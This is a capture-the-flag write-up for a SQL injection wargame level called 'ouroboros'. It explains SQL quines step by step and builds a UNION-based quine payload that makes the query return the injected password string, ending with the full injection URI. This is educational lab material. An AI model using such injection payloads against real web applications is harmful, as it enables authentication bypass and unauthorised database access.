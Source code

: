 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 30
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/1484f622-d41c-4263-9655-405d71ed15d5)

We are provided with the SQL query:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='{$_GET[pw]}'
```

If `$result['pw']` is equal `$_GET['pw']`, the challenge is solved.

If we provide the following URI parameter:

```
?pw=' UNION SELECT 1 -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT 1 -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/33c02c9b-464c-4920-b0aa-4d463a1bc01c)

In this case the `$result['pw']` and `$_GET['pw']` differ as follows:

```
$result['pw']: 1
$_GET['pw']: ' UNION SELECT 1 -- -
```

In order to make them the same, we have to use a [Quine](https://en.wikipedia.org/wiki/Quine_(computing)) program.

&nbsp;

## Quine

A Quine is a program that outputs its own souce code without having access to it.
An example of a SQL Quine is:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine',
Char(34),Char(39)),Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine')
AS Quine 
```
### Initial string

```sql
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine'
```
### First replacement

```sql
-- - SELECT Replace( -- -
Replace( 
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine', 
Char(34), 
Char(39)
)
-- - , Char(36), 'SELECT REPLACE(REPLACE("$",Char(34),Char(39)),Char(36),"$") AS Quine') AS Quine -- -
```

Replace all occurrences of `Char(34)` (double quote `"` Character) with `Char(39)` (single quote `'` Character):

```sql
-- - SELECT Replace( -- -
'SELECT Replace(Replace('$',Char(34),Char(39)),Char(36),'$') AS Quine'
-- - , Char(36), 'SELECT REPLACE(REPLACE("$",Char(34),Char(39)),Char(36),"$") AS Quine') AS Quine -- -
```
### Second replacement

```sql
-- - SELECT -- -
Replace(
'SELECT Replace(Replace('$',Char(34),Char(39)),Char(36),'$') AS Quine', 
Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine'
)
-- - AS Quine -- -
```

Replace all occurrences of `Char(36)` (dollar sign `$` Character) with the original string:

```sql
-- - SELECT -- -
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine\',
Char(34),Char(39)),Char(36),
\'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine\')
AS Quine'
-- - AS Quine -- -
```
### Putting it All Together

The final result of the query is the string after both replacements, as follows:

```sql
SELECT
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine\',
Char(34), Char(39)), Char(36),
\'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine\')
AS Quine'
AS Quine
```

When this SQL query is executed, it will produce a single column named `Quine` containing the following text:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine',
Char(34), Char(39)), Char(36),
'SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") AS Quine')
AS Quine
```

Thus, we can see how the query repeats itself.

&nbsp;
## Modified Quine

```sql
' UNION SELECT Replace(Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),char( 39)),char(36), 
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')
%23
```
### First replacement

```sql
-- - ' UNION SELECT Replace( -- -
Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),
char(39)
)
-- -,char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')%23 -- -
```

Replace all occurrences of `Char(34)` (double quote `"` Character) with `Char(39)` (single quote `'` Character):

```sql
-- - ' UNION SELECT Replace( -- -
'\' UNION SELECT Replace(Replace(\'$\',char(34),char(39)),char(36),\'$\')%23'
-- -,char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')%23 -- -
```
### Second replacement

```sql
-- - ' UNION SELECT -- -
Replace(
'\' UNION SELECT Replace(Replace('$',char(34),char(39)),char(36),'$')%23',
char(36),
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')
-- - %23 -- -
```

Replace all occurrences of `Char(36)` (dollar sign `$` Character) with the original string:

```sql
-- - ' UNION SELECT -- -
'\' UNION SELECT Replace(Replace(
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
,char(34),char(39)),char(36),
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
)%23'
-- - %23 -- -
```
### Putting it all together

The final result of the query is the string after both replacements, as follows:

```sql
' UNION SELECT 
\'\' UNION SELECT Replace(Replace(
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
,char(34),char(39)),char(36),
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
)%23'
%23
```

When this SQL query is executed, it will return the following text:

```sql
' UNION SELECT Replace(Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),char(39)),char(36),
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23'
)%23
```

We have successfully managed to create a Quine to solve this challenge.

&nbsp;

Now, we have to implement this for the challenge.
We will have to modify this Quine to the following:

```sql
UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -',Char(34),Char( 39)),Char(36),'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -') -- -
```

If we provide the following URI parameter:

```
?pw=' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -',Char(34),Char( 39)),Char(36),'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -') -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -',Char(34),Char( 39)),Char(36),'" UNION SELECT Replace(Replace("$",Char(34),Char(39)),Char(36),"$") -- -') -- -'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/2022ca1c-e568-4989-aa51-186eaacd6810)
